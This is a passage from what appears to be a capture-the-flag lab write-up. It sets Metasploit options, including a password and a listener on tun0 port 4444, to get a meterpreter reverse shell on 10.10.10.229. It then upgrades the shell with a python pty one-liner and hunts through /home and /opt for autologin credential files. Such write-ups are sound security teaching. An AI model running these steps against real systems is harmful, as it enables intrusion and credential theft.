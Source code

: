 ![image](https://user-images.githubusercontent.com/67465230/158156218-58b85b2e-0e3f-4940-ac6c-3b191c9fe840.png)

we'll use this module. 

setting options:
- **set username administrator**
- **set password devteam01**
- **set lhost tun0**
- **set rhosts 10.10.10.229**
- **set lport 4444**

![image](https://user-images.githubusercontent.com/67465230/158156224-3e7aa29d-c4d1-4137-a1e4-7f9fafff4b85.png)

check options to see if we've made any mistakes and then hit `run`, after sometime, it'll get us meterpreter shell.

Let's get a proper shell from meterpreter by typing `shell` command, but we'll get a non-functional shell and we've to improve it's functionality, 

```bash
cd /tmp
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image](https://user-images.githubusercontent.com/67465230/158156232-a90cf5f3-edf3-4732-8495-46a6d7b1e838.png)

we've gain a proper shell.

Let's get the user flag.

```bash
ls -la /home
ls -la /home/katie
```

![image](https://user-images.githubusercontent.com/67465230/158156257-4874ad31-8da5-4630-af08-06fbaa330936.png)

we can't access the user.txt file because we're not katie user. In order to access this flag, we first have to be katie user.

Hopefully, we got into **/opt** directory and there's a file called **autologin.conf.orig**

```bash
cd /opt
ls -la
``` 

![image](https://user-images.githubusercontent.com/67465230/158157495-8542e824-4f75-4e0b-8f66-82f35133c477.png)

this file seems suspicious. Let's view its content.

```bash
cat autologin.conf.orig
```

![image](https://user-images.githubusercontent.com/67465230/158156290-248ae25b-f4e8-459b-86a5-619eb4f54122.png)

It’s a lengthy config script but there’s a line in there that points us to **/etc/autologin**. Let’s check that out:
